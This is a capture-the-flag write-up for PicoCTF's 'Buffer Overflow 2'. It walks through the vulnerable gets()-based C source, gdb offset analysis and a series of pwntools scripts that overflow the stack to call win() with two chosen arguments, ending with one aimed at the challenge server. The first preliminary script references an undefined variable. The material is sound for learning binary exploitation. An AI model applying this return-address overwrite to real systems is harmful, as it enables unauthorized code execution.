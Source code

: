 ```yaml
---
title: "PicoCTF: Buffer Overflow 2"
date: 2024-10-09T14:23:13-05:00
draft: false
tags:
- Buffer Overflow
- Binary Exploitation
- Code Review
- x86
- Pwn
- Pico
---
```


### Description
Buffer Overflow 2 is a binary exploitation challenge that involves overflowing a buffer to not only call the win() function, but also to successfully pass the necessary arguments to it.


### Walkthrough
After downloading the vulnerable binary and its source code, the first thing I did was to view the source code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It is apparent that the binary is using the vulnerable ```gets()``` 
function with a buffer size of 100 bytes. We will need to overflow the buffer and 
call ```win()``` as well as pass in two arguments, ```0xCAFEF00D``` and
```0XF00DF00D```, in order to complete this challenge.

We can also see that we need a dummy flag in order for the program to execute correctly.

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ echo 'pico{debug}' > flag.txt
```

To overflow the buffer, we first need to find the offset of the eip register. eip stands for 
"Extended Instruction Pointer" and as its name suggests, points to the next instruction to be 
executed. We want to write the address of ```win()``` to it. To find the address,
we can analyze ```vuln``` in gdb...

```
┌──(kali㉿kali)-[~/Writeups/pico/buff2]
└─$ gdb vuln
```

... and find the buffer allocation.

![GDB vuln buffer size](/img/pico/buff2/vuln_gets_alloc.png)

Notice that the address of offset ```ebp-0x6c``` is pushed onto the stack and is
read by ```gets()```. This means that after calling the ```gets``` function, there will be
108 (0x6c) bytes of buffer between the start of the buffer and the ```ebp``` register. Note
that the 108 bytes allocated differ from the 100-byte buffer declared in ```vuln.c```. 
Discrepancies like this are usually caused by padding or local variables.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| eip (4 bytes)|
| ebp (4 bytes)|
| buffer + padding (108 bytes)|
| ... |
| Low Address |
{{< /centralize-table >}}


```eip``` is at a higher address immediately after ```ebp```. Since ```ebp``` is a 4 byte register,
```eip``` is 112 (108 + 4) bytes from the start of the buffer. We will therefore need 112 bytes of padding
in our payload before ```eip``` starts being overwritten. 

Preliminary payload: 112 bytes padding + address of win().

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_main = p32(elf.symbols["main"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

I didn't get a clear indication as to whether my payload succeeded, so I added a breakpoint
at the ```win()``` function through gdb. If ```win()``` is called, the program will pause at the breakpoint.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])

payload_list = [
		padding,
		addr_win
		]

payload = b''.join(payload_list)

with open("payload", "wb") as f:
    f.write(payload)

g = gdb.attach(p, gdbscript = '''
        b *win
        r < payload
    ''')

p.sendline(payload)
p.interactive()
```

![win() function stop](/img/pico/buff2/win_stop.png)

We do break, meaning our exploit successfully called ```win()```. Now, we need to add 
the arguments ```0XCAFEF00D``` and ```0XF00DF00D```. Let us take a look at the stack
frame for ```win()```.


{{< centralize-table >}}
| High Address |
| --- |
| ... |
| arg2 (4 bytes) |
| arg1 (4 bytes) |
| eip (4 bytes) |
| ebp (4 bytes) |
| ... |
| Low Address |
{{< /centralize-table >}}


Unlike x64 binaries, all function arguments in x86 programs are passed directly onto the stack.
After jumping to ```win()```, we will also need to overflow ```eip``` before we can pass in arg1 and arg2.
In my exploit script I set ```eip``` to be overflowed with the address of ```main()``` for the sake of
having a valid return address, but any 4 byte value should work since the flag is being printed directly in ```win()```.

```python
#!/usr/bin/python3

from pwn import *


p = process("./vuln")
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Local binary flag](/img/pico/buff2/local_flag.png)

Our exploit was successful. Now all that's left to do is to change the target from
the local binary to the remote pico server.

```python
#!/usr/bin/python3

from pwn import *


p = remote("saturn.picoctf.net", 54042) # Changed from binary to pico server.
elf = ELF("./vuln")

buffer_size = 112
padding = buffer_size * b'A'

addr_win = p32(elf.symbols["win"])
addr_main = p32(elf.symbols["main"])

arg1 = p32(0xCAFEF00D)
arg2 = p32(0xF00DF00D)

payload_list = [
        padding,
        addr_win,
        addr_main,
        arg1,
        arg2
        ]

payload = b''.join(payload_list)

p.sendline(payload)
p.interactive()
```

![Pico flag](/img/pico/buff2/flag.png)